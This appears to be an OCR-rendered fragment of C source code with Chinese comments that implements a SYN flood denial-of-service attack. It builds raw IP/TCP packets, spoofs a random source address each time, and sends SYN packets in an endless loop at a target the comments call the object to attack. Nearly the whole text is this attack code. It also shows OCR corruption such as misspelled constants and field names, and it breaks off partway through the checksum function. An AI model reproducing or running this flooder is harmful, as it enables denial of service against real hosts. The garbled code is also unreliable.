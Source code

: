 ```c:n 
	//设置IP数据包格式（自创TCPUDP哈哈）
	setsockopt(sockfd,IPPROTO_IP,IP_HDRINCI,&on,sizeof(on));
	//超级用户
	setuid(getpid());
	//发送炸弹
	send_tcp(sockfd,&addr);
}

/*发送炸弹的实现*/
void send_tcp(int sockfd,struct sockaddr_in *addr)
{
	char buffer[100];	//放置数据包
	struct ip *ip;
	struct tcphdr *tcp;
	int head_len;
	//数据包实际没有任何内容，就是两个结构的长度~
	head_len = sizeof(struct ip)+sizeof(struct tcphdr);
	bzero(buffer,100);
	//填充IP数据包的头部
	ip = (struct ip*)buffer;
	ip->ip_v = IPVERSION;//一般就是IPv4
	ip->ip_hl = sizeof(strucp ip)>>2;//IP数据包的头部长度
	ip->ip_tos = 0;//服务类型
	ip->ip_len = htons(head_len);//IP数据包的长度(因为只有头。。。)
	ip->ip_id = 0;//让系统填写~
	ip->ip_off = 0;//同上
	ip->ip_ttl = MAXTTL;//最长的时间255
	ip->ip_p = IPPROTO_TCP;//发送TCP包
	ip->ip_sum = 0;//校验让系统去做
	ip->ip_dst = addr->sin_addr;//程序要攻击的对象
	
	//开始填写TCP数据包
	tcp = (struct tcphdr*)(buffer+sizeof(struct ip));
	tcp->source = htons(LOCALPORT);
	tcp->dest = addr->sin_port;//目的端口
	tcp->seq = random();
	tcp->ack_seq=0;
	tcp->doff=5;
	tcp->sys=1;//请求建立连接
	tcp->check=0;
	
	//开始啦
	while(1)
	{
		ip->ip_src.s_addr=random();
		
		//手动校验头部
		tcp->check = check_sum((unsigned short*)tcp,sizeof(struct tcphdr));
		sendto(sockfd,buffer,head_len,0,addr,sizeof(struct sockaddr_in));
	}
}

//首部校验和的算法
unsigned short check_sum(unsigned short *addr,int len)
{
	register int nleft = len;
	register int sum = 0;
	register short *w = addr;
	short answer = 0;
	while(nleft>1)
	{
		sum += *w++;
		nleft -= 2;
```